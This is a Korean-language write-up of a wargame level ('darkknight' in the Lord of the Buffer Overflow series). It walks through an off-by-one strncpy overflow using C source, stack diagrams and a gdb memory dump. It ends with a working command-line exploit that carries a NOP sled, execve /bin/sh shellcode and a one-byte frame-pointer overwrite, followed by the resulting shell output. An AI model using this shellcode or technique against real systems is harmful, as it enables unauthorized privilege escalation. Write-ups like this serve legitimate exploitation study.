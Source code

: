 ============================================================================================================
[redhat-lob] (12) darkknight
============================================================================================================

.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="dummy * 15 + shellcode + 1(sfp)"];
        b [shape=box, color=lightblue, label="strncpy"];
        c [shape=box, label="Buffer Overflow"];
        e [shape=box, label="(argv[1] address+4*i)"];
    }

|

source code
============================================================================================================

.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    void problem_child(char *src)
    {
        char buffer[40];
        strncpy(buffer, src, 41);
        printf("%s\n", buffer);
    }
    main(int argc, char *argv[])
    {
        if(argc<2){
            printf("argv error\n");
            exit(0);
        }
        problem_child(argv[1]);
    }


Vulnerabliity Vector
============================================================================================================

problem_child 함수의 sfp와 ret를 덮어씌워 오버플로우를 발생시킨다.

.. code-block:: console

    ==============================
    LOW     
    ------------------------------
    local variables of problem_child
    saved registers of problem_child
    return address of problem_child <<- overflow
    argc
    argv
    envp
    stack from startup code
    argc
    argv pointers
    NULL that ends argv[]
    environment pointers
    NULL that ends envp[]
    ELF Auxiliary Table
    argv strings
    environment strings
    program name
    NULL
    ------------------------------
    HIGH (0xC0000000)    
    ==============================

|

Segmentation fault
============================================================================================================

어떤 값을 입력하더라도 세그먼트 폴트 오류가 발생함.

.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
    $ ./darkknight `python -c 'print "a"*41'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒▒▒▒K▒▒▒▒▒▒▒   @
    Segmentation fault




exploit
============================================================================================================

gdb를 통해 argv[1]값이 들어간 스택 부분을 확인

.. code-block:: console

    (gdb) disassemble problem_child
    Dump of assembler code for function problem_child:
    0x8048440 <problem_child>:      push   %ebp
    0x8048441 <problem_child+1>:    mov    %ebp,%esp
    0x8048443 <problem_child+3>:    sub    %esp,40
    0x8048446 <problem_child+6>:    push   41
    0x8048448 <problem_child+8>:    mov    %eax,DWORD PTR [%ebp+8]
    0x804844b <problem_child+11>:   push   %eax
    0x804844c <problem_child+12>:   lea    %eax,[%ebp-40]
    0x804844f <problem_child+15>:   push   %eax
    0x8048450 <problem_child+16>:   call   0x8048374 <strncpy>
    0x8048455 <problem_child+21>:   add    %esp,12
    0x8048458 <problem_child+24>:   lea    %eax,[%ebp-40]
    0x804845b <problem_child+27>:   push   %eax
    0x804845c <problem_child+28>:   push   0x8048500
    0x8048461 <problem_child+33>:   call   0x8048354 <printf>
    0x8048466 <problem_child+38>:   add    %esp,8
    0x8048469 <problem_child+41>:   leave
    0x804846a <problem_child+42>:   ret

    (gdb) b *problem_child+41
    Breakpoint 1 at 0x8048469
    (gdb) r `python -c 'print "a"*41'`
    Starting program: /home/golem/./jdarknight `python -c 'print "a"*41'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒▒▒▒N▒▒▒▒▒▒▒   @

    Breakpoint 1, 0x8048469 in problem_child ()
    (gdb) x/40x $ebp-40
    ===========     =============== =============== =============== ==========
    0xbffffac4:     0x61616161      0x61616161      0x61616161      0x61616161
    0xbffffad4:     0x61616161      0x61616161      0x61616161      0x61616161
    0xbffffae4:     0x61616161      0x61616161      0xbffffa61      0x0804849e
    0xbffffaf4:     0xbffffc4e      0xbffffb18      0x400309cb      0x00000002
    0xbffffb04:     0xbffffb44      0xbffffb50      0x40013868      0x00000002
    0xbffffb14:     0x08048390      0x00000000      0x080483b1      0x0804846c
    0xbffffb24:     0x00000002      0xbffffb44      0x080482e4      0x080484dc
    0xbffffb34:     0x4000ae60      0xbffffb3c      0x40013e90      0x00000002
    0xbffffb44:     0xbffffc35      0xbffffc4e      0x00000000      0xbffffc78
    0xbffffb54:     0xbffffc9a      0xbffffca4      0xbffffcb2      0xbffffcd1
    ===========     =============== =============== =============== ==========


|

argv[1] pointers 쉘코드 실행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ==============================
    LOW     
    ------------------------------
    local variables of problem_child
    saved registers of problem_child
    return address of problem_child <<- overflow
    argc
    argv
    envp
    stack from startup code
    argc
    argv pointers ->> shellcode
    NULL that ends argv[]
    environment pointers
    NULL that ends envp[]
    ELF Auxiliary Table
    argv strings
    environment strings
    program name
    NULL
    ------------------------------
    HIGH (0xC0000000)
    ==============================

|


argv[1] : nop (15 byte) + shellcode (25 byte) + sfp (1 byte)

.. code-block:: console

    $ ./darkknight `python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\xf0"'`

    bash$ whoami
    darkknight
    bash$ my-pass
    euid = 512
    new attacker


